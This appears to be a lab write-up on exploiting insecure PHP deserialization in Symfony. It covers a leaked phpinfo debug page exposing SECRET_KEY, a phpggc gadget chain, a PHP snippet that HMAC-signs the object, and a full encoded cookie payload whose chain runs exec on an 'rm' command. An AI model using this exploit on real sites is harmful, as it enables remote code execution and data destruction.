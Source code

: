 ```
Internal Server Error: Symfony Version: 4.3.6</p>
                    <p class=is-warning>PHP Fatal error:  Uncaught Exception: Signature does not match session in /var/www/index.php:7
Stack trace:
#0 {main}
  thrown in /var/www/index.php on line 7</p>
 <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->

```

here developer comment disclose `debug` page

- from `debug` page we got `SECRET_KEY` in `Enviornment`
- `SECRET_KEY: key(eg: oy93ozy4qspj3ywruamc3j9bww7xl3kn)` this we use to sign our object in serialization
- we use `phpggc` to create serialize object for gadget chain
create signed cookie so cant get error in server side

```
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;

```

final payload looks like

```
%7B%22token%22%3A%22Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW
1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21w
b25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbW
UvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wi
O086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2
FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94
eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg%3D%3D%22%2C%22sig_hmac_sha1%22%3A%225f56810b37c66cbcbfb39b6
e6215c2cb088eff10%22%7D

```

## Working With Documented Gadget Chains

- try to search or look at internet to see if there are any documented exploits are present, that we adapt to attack our target, even if there no dedicated tool for automatically generating serialized object, but we still find documented gadget chains for popular frameworks and adapt them manually.
